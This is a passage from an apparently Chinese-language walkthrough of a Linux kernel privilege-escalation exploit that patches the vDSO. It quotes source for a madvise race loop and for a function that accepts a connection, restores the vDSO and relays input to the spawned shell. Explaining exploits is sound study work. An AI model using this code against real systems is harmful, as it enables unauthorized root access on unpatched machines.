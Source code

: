madivise循环释放

```text
while (!arg->stop) {
        if (madvise(arg->vdso_addr, VDSO_SIZE, MADV_DONTNEED) == -1) {
            warn("madvise");
            break;
        }
    }
```

### 9 . yeah <a id="9-yeah"></a>

函数原型

```text
static int yeah(struct mem_arg *arg, int s)
```

函数介绍  
 等待连接  
 还原原vDSO空间数据  
 处理连接后的数据发送与接收

关键代码  
 循环等待连接,有连接之后就关闭监听

```text
    while (1) {
        c = accept(s, (struct sockaddr *)&addr, &addr_len);
        if (c == -1) {
            if (errno == EINTR)
                continue;
            warn("accept");
            return -1;
        }
        break;
    }

    close(s);
```

连接成功后,将vDSO还原

```c
if (fork() == 0) {
        if (exploit(arg, false) == -1)
            fprintf(stderr, "[-] failed to restore vDSO\n");
        exit(0);
    }
```

绑定输入输出到socket,处理连接数据

```c
    fds[0].fd = STDIN_FILENO;
    fds[0].events = POLLIN;

    fds[1].fd = c;
    fds[1].events = POLLIN;

    nfds = 2;
    while (nfds > 0) {
        if (poll(fds, nfds, -1) == -1) {
            if (errno == EINTR)
                continue;
            warn("poll");
            break;
        }

```
